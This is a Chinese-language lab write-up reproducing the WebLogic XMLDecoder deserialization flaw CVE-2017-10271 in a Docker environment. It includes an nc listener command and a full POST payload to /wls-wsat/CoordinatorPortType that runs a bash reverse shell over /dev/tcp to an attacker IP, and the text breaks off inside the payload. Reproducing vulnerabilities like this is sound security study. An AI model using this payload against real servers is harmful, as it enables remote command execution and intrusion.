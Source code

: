 # Weblogic反序列化漏洞 (CVE-2017-10271)

## 漏洞详情

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令



## 影响版本

**Weblogic10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0**



## 环境搭建

```
cd weblogic/CVE-2017-10271
docker-compose up -d
```



## 漏洞复现

我们先拿XML反序列化漏洞检查工具检查一下

![image-20210413124538591](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413124538591.png)

发现有漏洞可以利用，并在浏览器中粘贴URL验证地址，验证此漏洞的存在

![image-20210413124642518](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413124642518.png)

访问`/wls-wsat/CoordinatorPortType`目录，存在下图，并且抓个包

![image-20210413124856714](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413124856714.png)

kali nc监听一下本地端口，将数据包的GET改为POST，填入payload发包

```
nc -l -p 21
```

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/接收shell的ip/21 0&gt;&amp;1</string> 
```